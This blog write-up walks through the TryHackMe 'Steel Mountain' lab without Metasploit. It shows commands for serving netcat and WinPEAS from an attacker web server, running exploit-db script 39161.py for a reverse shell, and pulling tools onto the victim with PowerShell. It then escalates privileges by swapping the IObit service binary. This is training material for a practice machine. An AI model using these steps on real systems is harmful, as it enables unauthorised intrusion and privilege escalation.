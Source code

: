 # TryHackMe: Complete Beginner

## Steel Mountain

Things got busy yesterday and I had to push finishing this section off a day. The machine’s new IP address is 10.10.174.199.

### Access and Escalation Without Metasploit

The alternate exploit we’re going to run for this is located at /usr/share/exploitdb/exploits/windows/remote/39161.py on Kali Linux. To set this up, we’re going to use a quick-n-dirty Python web server containing a statically-compiled version of netcat. This needs to be running on port 80 for the exploit to work (don’t forget to punch a hole through the firewall for this!).

```bash
mkdir 1
cd 1
cp /usr/share/windows-binaries/nc.exe .
curl -O https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
sudo python3 -m http.server 80
```

Ready our listener in another terminal. Note that WinPEAS generates *a lot* of output, so we need to increase TMUX history buffer (`set -g history-limit 8192`) in order to be able to capture all of it. This needs to be set *before* creating the window that we’re going to catch our reverse shell in!

```bash
nc -lvnp 4444
```

Copy, setup, and run the exploit!

```bash
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
nano 39161.py # Change ip_addr and local_port
python2 39161.py 10.10.174.199 8080
python2 39161.py 10.10.174.199 8080
```

Once we’re in (the exploit needs to be run twice to work), we need to grab and run winPEASx64.exe from our web server.

```bat
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/winPEASx64.exe -OutFile winPEASx64.exe"
.\winPEASx64.exe
```

Interestingly, while WinPEAS notes that ASCServie.exe is vulnerable to an overwrite, it looks like it misses the fact that the compromised user can restart it. That said, WinPEAS does display *a lot* more information than PowerUp, so it might be useful to run *both*…

Useful PowerShell commands:

* `Get-Service` — list all services, or drill down on a particular service.
* `sc stop $SERVICE`/`sc start $SERVICE` — stop/start $SERVICE.

Putting this all together, we can replicate [yesterday’s compromise]() by:

```bat
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/ASCService.exe -OutFile ASCService.exe"
sc stop AdvancedSystemCareService9
copy "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe" ASCService.exe.bak
copy /Y ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc start AdvancedSystemCareService9
```

Where ASCService.exe is the same compromise as last time, and we again catch the reverse shell using:

```bash
nc -lvnp 4443
```

- - - -

👤 Nathan Acks
📅 November 8, 2021
